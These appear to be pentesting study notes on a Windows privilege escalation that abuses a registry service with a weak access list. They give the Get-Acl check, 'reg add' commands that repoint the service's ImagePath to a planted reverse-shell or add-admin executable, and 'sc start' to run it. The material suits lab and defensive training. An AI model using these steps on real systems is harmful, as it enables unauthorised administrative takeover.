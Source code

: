 ## ACL of regsvc
### Recon
- Check the access control lists of a registry service with:
```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```
- If you see -  “NT AUTHORITY\INTERACTIVE” has “FullContol” then we can escalate.

### Exploitation
- Make a C file with code for rev-shell, adding admin user etc., compile into exe (using mingw).
- Copy it over to windows machine.
- Add to registry key using:
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```
Args:
- `/v` to name the subkey, here ImagePath (stores exe to run when service starts).
- `/t` for type, here REG_EXPAND_SZ means we are providing the path as a string.
- `/d` for the path to exe.
- `/f` just run, no need to confirm.
Now to run the service:
```
sc start regsvc
```
And you have successfully escalated.
